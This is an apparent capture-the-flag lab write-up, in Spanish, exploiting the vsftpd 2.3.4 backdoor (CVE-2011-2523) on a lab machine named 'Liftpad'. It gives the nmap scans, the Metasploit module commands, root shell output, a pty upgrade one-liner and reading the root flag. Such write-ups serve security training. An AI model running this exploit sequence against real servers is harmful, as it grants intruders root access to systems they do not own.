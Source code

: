 # Informe de Explotación - Maquina: Liftpad

## 1. Información General

* **Nombre de la máquina:** Liftpad
* **Dirección IP:** Variable según reinicio (ej. 10.10.99.18, 10.10.52.177, 10.10.61.204)
* **VPN activa:** Tunel VPN por OpenVPN (tun1)

---

## 2. Descubrimiento del Servicio Vulnerable

### Escaneo inicial con Nmap:

```bash
sudo nmap -Pn -sS -sC -sV -oN nmap-inicial 10.10.99.18
```

**Resultado relevante:**

* **Puerto 21/tcp (FTP)** abierto
* Servicio: `vsftpd 2.3.4`
* Permite login anónimo (código 230)

---

## 3. Confirmación de vulnerabilidad con Nmap NSE

```bash
sudo nmap -Pn -p 21 --script "ftp-*" -oN nmap-ftp-scripts 10.10.99.18
```

**Resultado del script `ftp-vsftpd-backdoor`:**

* Estado: VULNERABLE (CVE-2011-2523)
* UID obtenido: `root`

---

## 4. Explotación con Metasploit

### Módulo usado:

```
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 10.10.61.204
run
```

**Resultado exitoso:**

```
[+] 10.10.61.204:21 - Backdoor service has been spawned, handling...
[+] 10.10.61.204:21 - UID: uid=0(root) gid=0(root) groups=0(root)
[*] Found shell.
[*] Command shell session opened
```

Shell mejorada con:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

---

## 5. Obtención de Flag

```bash
cat /root/root.txt
```

> Flag obtenida correctamente desde el directorio `/root/`

---

## 6. Problemas encontrados

### a. Fallos de conexión intermitentes

* El exploit falló en varias ejecuciones con errores como:

```
Exploit failed [unreachable]: Rex::ConnectionTimeout
```

* O bien:

```
The service on port 6200 does not appear to be a shell
```

* A veces el puerto 6200 quedaba abierto, pero no ejecutaba correctamente el shell.

### b. Reinicio de entorno o caducidad de sesión

* La dirección IP del objetivo cambió varias veces (10.10.99.18, 10.10.52.177, 10.10.61.204), lo cual requiere repetir todo el proceso de explotación.

---

## 7. Conclusiones

* La máquina `Liftpad` es vulnerable a una explotación conocida y antigua en `vsftpd 2.3.4`.
* A pesar de errores de sesión y reconexión, se logró obtener una shell como `root`.
* Se recomienda no intentar levantar servicios como SSH permanentemente, ya que estas máquinas suelen reiniciar su estado.

---

## 8. Herramientas Utilizadas

* `nmap`
* `netcat`
* `msfconsole`
* `openvpn`
* `python3`
* `ps`, `ss`, `which`, etc.

---

## 9. Recomendaciones

* Automatizar la verificación de disponibilidad del puerto 21 y el acceso al backdoor (puerto 6200).
* Mantener logs de IPs activas durante las sesiones de laboratorio.
* Considerar usar `meterpreter` para sesiones más estables.
